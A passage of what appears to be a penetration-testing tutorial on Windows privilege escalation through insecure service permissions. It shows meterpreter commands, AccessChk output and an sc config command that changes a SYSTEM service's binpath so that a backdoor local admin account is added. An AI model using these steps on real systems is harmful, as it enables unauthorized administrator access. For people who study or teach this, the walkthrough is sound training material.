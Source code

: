 ```
But don’t forget! We are working with services just as in the previous method our hi-priv meterpreter session will die quickly.
### Insecure Service Permissions
It is very similar with previous Insecure Registry Permissions example. Instead of changing service’s “ImagePath” registry value directly we will do it with modifying service properties.
To check which Services have vulnerable privileges we can use AccessChk tool from SysInternals Suite.
Upload AccessChk tool to target machine:
```
meterpreter > cd %temp%
meterpreter > pwd
C:\Users\testuser\AppData\Local\Temp
meterpreter > upload -f accesschk.exe
[*] uploading  : accesschk.exe -> accesschk.exe
[*] uploaded   : accesschk.exe -> accesschk.exe
meterpreter >
```
To check vulnerable services simply run this command:
```
meterpreter > getuid
Server username: TARGETMACHINE\testuser
meterpreter > shell
Process 3496 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\AppData\Local\Temp>accesschk.exe -uwcqv "testuser" * 
accesschk.exe -uwcqv "TestUser" *
Accesschk v6.02 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
RW Vulnerable Service
 SERVICE_ALL_ACCESS
C:\Users\testuser\AppData\Local\Temp>
All services that “testuser” can modify will be listed. SERVICE_ALL_ACCESS means we have full control over modifying the properties of Vulnerable Service.
```
Let’s view the properties of the Vulnerable Service:
```
C:\Users\testuser\AppData\Local\Temp>sc qc "Vulnerable Service"
sc qc "Vulnerable Service"
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: Vulnerable Service
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
        LOAD_ORDER_GROUP   : UIGroup
        TAG                : 0
        DISPLAY_NAME       : Vulnerable Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
C:\Users\testuser\AppData\Local\Temp>
```
```BINARY_PATH_NAME``` points to Executable.exe which is executable file for this service. If we change this value with any command means this command will run as SYSTEM at the next start of the service. We can add a local admin if we want.
First thing to do is add an user:
```
C:\Users\testuser\AppData\Local\Temp>sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add"
sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add"
[SC] ChangeServiceConfig SUCCESS
C:\Users\testuser\AppData\Local\Temp>
```
After changing binpath restart service with “sc stop” and “sc start” commands:
```